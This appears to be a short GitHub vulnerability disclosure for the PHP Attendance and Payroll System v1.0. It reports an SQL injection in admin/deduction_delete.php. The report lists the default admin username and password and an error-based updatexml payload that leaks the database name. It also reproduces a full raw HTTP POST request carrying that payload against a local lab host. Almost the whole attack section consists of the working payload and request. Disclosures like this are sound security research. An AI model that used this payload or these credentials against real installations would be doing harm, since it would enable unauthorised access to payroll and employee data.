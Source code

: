 Attendance and Payroll System v1.0 - SQL injection

username:nurhodelta password:password ----> {ip}apsystem/admin/index.php

Supplier： https://www.sourcecodester.com/php/12268/attendance-and-payroll-system-using-php.html

\admin\deduction_delete.php has SQL injection

Payload: id=1' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+&delete=

SQL injection because id can be closed

![image](https://user-images.githubusercontent.com/54017627/159227957-7b1d2136-f5e6-4659-9698-15d50ce108b7.png)

```sql
POST /apsystem/admin/deduction_delete.php HTTP/1.1
Host: 192.168.1.17
Content-Length: 12
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.1.17
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.1.17/apsystem/admin/deduction.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=2nud4pa7qt6oo5odl3120a4bta
Connection: close

id=1' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+&delete=
```

![image](https://user-images.githubusercontent.com/54017627/159228037-8c459b59-f851-414e-b658-ef396f60a627.png)

![image](https://user-images.githubusercontent.com/54017627/159228101-d7f7155e-9c9c-4d12-8d08-c18a117f3059.png)
